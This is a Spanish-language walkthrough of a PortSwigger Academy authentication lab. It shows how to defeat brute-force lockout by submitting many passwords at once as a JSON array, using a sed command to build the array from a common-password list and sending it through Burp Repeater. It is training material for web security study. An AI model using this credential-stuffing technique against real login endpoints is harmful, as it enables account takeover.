



+++
author = "Alux"
title = "Portswigger Academy Learning Path: Authentication Lab 6"
date = "2021-11-21"
description = "Lab: Broken brute-force protection, multiple credentials per request"
tags = [
    "broken authentication",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Broken brute-force protection, multiple credentials per request

En este <cite>laboratorio[^1]</cite>la finalidad es ingresar con un usuario valido, como el que se nos indica que es `carlos` y se nos da el listado de contrasenas que podemos probar.

## Reconocimiento

Para resolver el ejercicio se nos da el listado de contrasenas con el que nos podemos autenticar con el usuario carlos, cuando tratamos de ingresar con el usuario se nos muestra una respuesta generica como la siguiente:



Pero al ver la peticion, vemos que la peticion hace uso de post en formato `json` de la siguiente manera:

```json
{
    "username":"carlos",
    "password":"test",
    "":""
}
```

## Explotacion

Ahora que sabemos esto, intentaremos inyectar muchas mas contrasenas en esta misma peticion para evitar el bloqueo al realizar demasiados intentos, debemos saber que para enviar multiples valores en json se deben de enviar dentro de corchetes de la siguiente manera:

```json
{
    "username":"carlos",
    [
        "valor1",
        "valor2",
        "valor3",
    ]
}
```
Para eso podemos usar el siguiente comando con `sed` para que de nuestra lista de contrasenas crear la estructura y automatizarlo:

```bash
$ sed 's/^/"/; s/$/",/' passwords.txt
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
"123123",
"baseball",
"abc123",
"football",
"monkey",
"letmein",
"shadow",
"master",
"666666",
"qwertyuiop",
"123321",
"mustang",
"1234567890",
"michael",
...
```

Ahora los enviamos por `repeater` de la siguiente manera para poder iniciar sesion, lo que nos devuelve una respuesta 302 por lo que ya contamos con una contrasena valida enviada en formato `json`.



Y con eso ya hemos ingresado al usuario de carlos:



Con esto ya muestra que se ha resuelto el lab.

[^1]: [Laboratorio](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)